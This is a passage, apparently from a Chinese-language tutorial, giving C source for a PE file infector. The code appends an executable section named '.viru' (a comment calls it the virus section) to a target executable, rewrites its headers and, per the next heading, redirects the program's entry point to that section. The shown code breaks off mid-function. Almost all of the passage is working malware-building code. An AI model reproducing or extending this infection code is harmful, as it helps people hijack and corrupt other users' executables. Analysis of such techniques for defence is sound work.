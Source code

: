 ```
    //for (int a = 0; a <= 15; a++)
    //  printf("%x,%x\n", image_nt_headers.OptionalHeader.DataDirectory[a].VirtualAddress, image_nt_headers.OptionalHeader.DataDirectory[a].Size);

    num_section = image_nt_headers.FileHeader.NumberOfSections;
    fseek(h, image_dos_header.e_lfanew + sizeof(IMAGE_NT_HEADERS) + (num_section - 1) * sizeof(IMAGE_SECTION_HEADER), SEEK_SET);// 跳到最后一个节表项
    fread(&old_section, sizeof(IMAGE_SECTION_HEADER), 1, h);  // 存储最后一个节表项到old_section

    image_nt_headers.FileHeader.NumberOfSections += 1;
    image_section_header.Characteristics = IMAGE_SCN_MEM_EXECUTE | IMAGE_SCN_CNT_CODE | IMAGE_SCN_MEM_READ;
    image_section_header.Misc.VirtualSize = image_nt_headers.OptionalHeader.SectionAlignment;
    //bool x=true;
    for (int n = 1; true; n++) {
        if (image_nt_headers.OptionalHeader.FileAlignment *n > 520) break; 
        image_section_header.SizeOfRawData = image_nt_headers.OptionalHeader.FileAlignment * n;
        strcpy((char*)image_section_header.Name, ".viru");
        image_section_header.PointerToRawData = alig(old_section.PointerToRawData + old_section.SizeOfRawData, image_nt_headers.OptionalHeader.FileAlignment);
        image_section_header.VirtualAddress = alig(old_section.VirtualAddress + old_section.SizeOfRawData, image_nt_headers.OptionalHeader.SectionAlignment);
        fseek(h, image_dos_header.e_lfanew + sizeof(IMAGE_NT_HEADERS) + num_section * sizeof(IMAGE_SECTION_HEADER), SEEK_SET);
        fwrite(&image_section_header, sizeof(IMAGE_SECTION_HEADER), 1, h);
    }

    image_nt_headers.OptionalHeader.SizeOfImage = alig(image_section_header.VirtualAddress + image_section_header.SizeOfRawData, image_nt_headers.OptionalHeader.SectionAlignment);
    image_nt_headers.OptionalHeader.DataDirectory[11].VirtualAddress = 0;
    image_nt_headers.OptionalHeader.DataDirectory[11].Size = 0;
    fseek(h, image_dos_header.e_lfanew, SEEK_SET);
    fwrite(&image_nt_headers, sizeof(IMAGE_NT_HEADERS), 1, h);

    fseek(h, image_section_header.PointerToRawData, SEEK_SET);
    byte *s = (byte *)malloc(image_section_header.SizeOfRawData);
    ZeroMemory((void *)s, image_section_header.SizeOfRawData);
    fwrite(s, image_section_header.SizeOfRawData, 1, h);


    fclose(h);

    return image_section_header;// 返回病毒节

}
```

## 修改入口点
只需要将optionalheader中的addressofentrypoint改为新加节的rva即可。
```
DWORD changeentry(DWORD entry,char* target) {
    FILE* fp = fopen(target, "rb+");
    if (fp == NULL) {
        //printf("can not open file");
        return 0;
    }
    // 获取dos头
    IMAGE_DOS_HEADER dosHeader;
    fread(&dosHeader, 1, sizeof(dosHeader), fp);
    // 获取PE头
    DWORD offsetPeHeader = dosHeader.e_lfanew;
    fseek(fp, offsetPeHeader, SEEK_SET);
```